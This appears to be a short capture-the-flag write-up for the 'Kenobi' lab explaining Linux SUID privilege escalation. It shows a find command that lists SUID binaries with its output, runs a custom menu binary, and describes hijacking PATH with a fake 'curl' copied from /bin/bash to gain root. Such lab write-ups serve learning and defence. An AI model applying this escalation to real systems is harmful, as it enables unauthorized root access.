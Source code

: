 ----

## SUID 
(Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user.


### Use 
 >**find / -type f -perm -u=s 2>/dev/null**
to search for files with a misconfigured SUID let us to get root privileges

```js
kenobi@kenobi:~$ find / -type f -perm -u=s 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
kenobi@kenobi:~$
```

## The /usr/bin/menu file looks intersest. Let's run this binary. we get this output with 3 options to select:

```js
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```
## In 1. status check like curl.
we make can file and name it as curl and copy /bin/bash to it then make it  readable, writeable and executable then add the path of curl file to bash shell of the system path
